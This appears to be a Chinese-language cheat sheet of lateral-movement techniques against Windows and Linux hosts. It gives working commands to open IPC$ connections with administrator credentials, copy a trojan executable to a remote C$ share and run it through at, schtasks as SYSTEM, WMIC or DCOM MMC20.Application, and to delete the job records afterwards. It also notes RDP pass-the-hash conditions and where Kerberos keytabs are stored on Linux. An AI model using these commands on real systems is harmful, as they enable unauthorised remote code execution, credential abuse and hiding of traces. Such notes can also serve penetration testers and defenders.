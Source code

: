 <a name="szASS"></a>
## IPC&计划任务
条件: 139,445端口<br />建立IPC连接<br />`net use \\192.168.100.190\ipc$ "password" /user:administrator`

1. net time \\192.168.100.190 获取目标系统时间
1. copy命令将马复制到目标主机,`copy mu.exe \\192.168.100.190\C$`
<a name="ysvaC"></a>
### at命令

1. at \\192.168.100.190 1:00PM C:\mu.exe
1. 清除at记录`at \\192.168.100.198 7(任务创建后得到的ID号) /delete`
<a name="gxM9R"></a>
### schtasks命令
已建立IPC

1. `schtasks /create /s 192.168.100.198 /tn test /sc onstart /tr c:\mu.exe /ru system /f`
1. `schtasks /run /s 192.168.100.198 /i /tn "test"`
1. `schtasks /delete /s 192.168.100.190 /tn "test" /f`

使用账号密码<br />/u:administrator<br />/p:"password"<br />/f:强制删除<br />删除ipc$<br />`net use 名称 /del /y`
<a name="xFNjD"></a>
## Psexec


<a name="KjocK"></a>
## WMI
`wmic /node:192.168.100.190 /user:administrator /password:123456789 process call create "cmd.exe /c ipconfig > ip.txt"`<br />wmic命令无回显,可通过ipc$连接将结果写到文件读取
<a name="nbcZk"></a>
## DCOM

1. 建立ipc$连接后
1. `$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.100.205"))`
1. `$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null," /c calc.exe","")`
<a name="AojwG"></a>
## RDP
1.在Win8.1和win2012R2以前,RDP连接传输使用明文密码,并且该密码会被存储在远程主机的Lsass.exe进程中,之后引入了受限管理模式,该模式下不再传输普通凭据,从而可以进行Pass tha hash/ticket攻击,但用户必须是管理员权限且不是Protected User group的用户
<a name="wnW8S"></a>
## Linux
如果该计算机是域的一部分,可以使用SSH来请求Kerberos验证,通过启用GSSAPI进行身份验证(-o GSSAPIAuthentication=yes)
<a name="maxM6"></a>
##### Linux Kerberos 票据
位置:

- `/etc/krb5.keytab`.
- 环境变量KRB5_KTNAME,KRB5_CLIENT_KTNAME指定的值.
- [Kerberos 配置文件](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/conf_files/krb5_conf.html)中指定的/etc/krb5.conf.
